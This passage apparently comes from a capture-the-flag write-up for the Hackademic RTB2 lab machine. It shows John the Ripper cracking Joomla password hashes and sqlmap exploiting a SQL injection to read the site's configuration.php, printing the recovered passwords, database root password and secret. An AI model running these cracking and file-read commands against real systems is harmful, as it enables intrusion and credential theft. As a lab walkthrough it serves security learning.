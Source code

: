 ```
root@bt:/pentest/passwords/john# john --wordlist=/pentest/passwords/wordlists/rockyou.txt --form=dynamic_1 /root/hackademicr2/hashes.txt 
Loaded 3 password hashes with 3 different salts (dynamic_1: md5($p.$s) (joomla) [128/128 SSE2 intrinsics 32x4x1])
Remaining 1 password hash
guesses: 0  time: 0:00:00:03 DONE (Thu Nov 15 23:03:45 2012)  c/s: 4333K  trying:   b1tch3s   -  * 7¡Vamos! 
root@bt:/pentest/passwords/john# cat john.pot
$dynamic_1$992396d7fc19fd76393f359cb294e300$70NFLkBrApLamH9VNGjlViJLlJsB60KF:matrix
$dynamic_1$abe1ae513c16f2a021329cc109071705$FdOrWkL8oMGl1Tju0aT7ReFsOwIMKliy:victim
root@bt:/pentest/passwords/john# 
```

Well we got the two users, but no super admin. 

I handed the hash off for further cracking elsewhere, but lets again take a look at the results dirbuster turned up:

{{< figure src="/images/posts/2012/hrt2_4.jpg" >}}

After more digging through Joomla documentation, turns out the 'configuration.php' holds, surprise, Joomla site configurations, specifically..

```
root@bt:/pentest/database/sqlmap# python sqlmap.py --url "http://192.168.1.75:666/index.php?option=com_amblog&view=amblog&catid=-1" -p 'catid' --dbms mysql --file-read="/var/www/configuration.php"
[SNIP]
root@bt:/pentest/database/sqlmap# cat output/192.168.1.75/files/_var_www_configuration.php 
<?php
class JConfig {
/* Site Settings */
var $offline = '0';
var $offline_message = 'This site is down for maintenance.<br /> Please check back again soon.';
var $sitename = 'Hackademic.RTB2';
var $editor = 'tinymce';
var $list_limit = '20';
var $legacy = '0';
/* Debug Settings */
var $debug = '0';
var $debug_lang = '0';
/* Database Settings */
var $dbtype = 'mysql';
var $host = 'localhost';
var $user = 'root';
var $password = 'yUtJklM97W';
var $db = 'joomla';
var $dbprefix = 'jos_';
/* Server Settings */
var $live_site = '';
var $secret = 'iFzlVUCg9BBPoUDU';
var $gzip = '0';
var $error_reporting = '-1';
var $helpurl = 'http://help.joomla.org';
var $xmlrpc_server = '0';
var $ftp_host = '127.0.0.1';
var $ftp_port = '21';
var $ftp_user = '';
var $ftp_pass = '';
var $ftp_root = '';
var $ftp_enable = '0';
var $force_ssl = '0';
[SNIP]
```
